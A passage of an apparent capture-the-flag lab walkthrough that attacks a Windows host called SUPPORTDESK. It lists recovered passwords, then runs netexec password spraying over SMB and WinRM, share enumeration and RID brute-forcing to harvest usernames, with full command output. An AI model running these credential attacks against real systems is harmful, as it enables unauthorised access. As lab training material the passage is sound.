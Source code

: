`vim ./cisco_config_passwords.txt`:
```
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

`netexec smb 10.10.10.149 -u ./cisco_users.txt -p ./cisco_passwords.txt`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent🔑
```

`netexec winrm 10.10.10.149 -u 'hazard' -p 'stealth1agent'`:
```
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:stealth1agent
```
❌

`netexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --shares`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

`netexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

`netexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute | grep 'SidTypeUser' | awk '{print $6}' | awk -F '\' '{print $2}' | awk '{print tolower($0)}' | tee ./users.txt`:
```
administrator
guest
defaultaccount
wdagutilityaccount
hazard
support
chase
jason
```
